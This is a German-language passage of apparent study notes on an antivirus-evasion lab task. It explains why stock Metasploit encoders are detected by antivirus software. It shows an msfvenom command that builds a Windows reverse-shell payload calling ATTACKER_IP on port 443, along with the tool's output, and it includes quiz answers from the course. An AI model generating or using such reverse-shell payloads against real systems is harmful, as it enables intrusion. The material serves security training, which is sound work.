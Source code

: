 Verwenden Encoding-Techniken einen Schlüssel, um Strings oder Dateien zu encodieren? (ja/nein)
```
nein
```

Verwenden Verschlüsselungsalgorithmen einen Schlüssel, um Strings oder Dateien zu verschlüsseln? (ja/nein)
```
ja
```

# Task 8 - Shellcode Ver- und Entschlüsselung
### Encoding mit MSFVenom

Öffentliche Tools wie Metasploit bieten Encoding- und Verschlüsselungsfunktionen an. AV-Anbieter sind jedoch über die Methoden dieser Tools zur Erstellung ihrer Payloads informiert und ergreifen Maßnahmen, um sie zu erkennen. Wenn Sie solche Funktionen ohne Anpassungen verwenden, besteht eine hohe Wahrscheinlichkeit, dass Ihr Payload sofort erkannt wird, sobald die Datei die Festplatte des Opfers berührt.

Lassen Sie uns einen einfachen Payload mit dieser Methode generieren, um diesen Punkt zu beweisen. Zuerst können Sie alle Encoder auflisten, die msfvenom zur Verfügung stehen, mit folgendem Befehl:
```shell   
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder        
```

Wir können angeben, dass wir den Encoder `shikata_ga_nai` mit dem `-e` (Encoder)-Schalter verwenden möchten, und dann spezifizieren, dass wir den Payload dreimal encodieren möchten, mit dem `-i` (Iterations)-Schalter:
```shell           
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes        
```

Wenn wir versuchen, unseren neu generierten Payload auf unsere Testmaschine hochzuladen, wird das AV-Programm ihn sofort markieren, bevor wir überhaupt die Möglichkeit haben, ihn auszuführen:
![AV Scan Ergebniss](Bilder/2024-07-05-AV-Scan-Ergebniss.png)
